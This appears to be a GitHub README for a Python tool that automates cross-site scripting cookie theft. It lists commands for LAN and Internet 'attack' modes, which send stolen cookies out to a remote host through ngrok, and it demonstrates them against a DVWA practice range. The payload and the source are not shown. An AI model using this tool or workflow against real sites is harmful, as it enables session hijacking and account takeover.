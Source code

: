 # XSS steals cookies
* The current version is 1.0 and will be updated continuously
* Python version 3.6 or above
* Automatically steal cookies
## usage method
  * View help information

      ```#python3 XSS.py -h```
  ![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/Command.png "Help")  

  * LAN attack

      ```#python3 XSS.py -lp (Local port)```

  * Internet attack

      ```#python3 XSS.py -t -lp (Local port) -rh (Remote host IP) -rp (Remote host port)```

## Effect demonstration 
 * Here, XSS will be demonstrated in the local DVWA shooting range, and cookies will be stolen through the internet

_If your machine has a public IP address, just listen to the local port_

* Enable port forwarding (Ngrok is used for demonstration)
![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/TCP.png "Port forwarding")  
* Use Internet attack

    ```#python3 XSS.py -t -lp 8080 -rh ***.***.***.*** -rp 10029```
 ![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/PAYLOAD.png "PAYLOAD")  
Copy PAYLOAD

* Attempt to inject statement
   ![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/ADMIN.png "Cookie")  
* Administrator visits malicious page
  The administrator is redirected to the specified page

  ![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/ADMIN.png "page")  
    
* Got cookies
      ![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/ADMIN.png "Cookie")  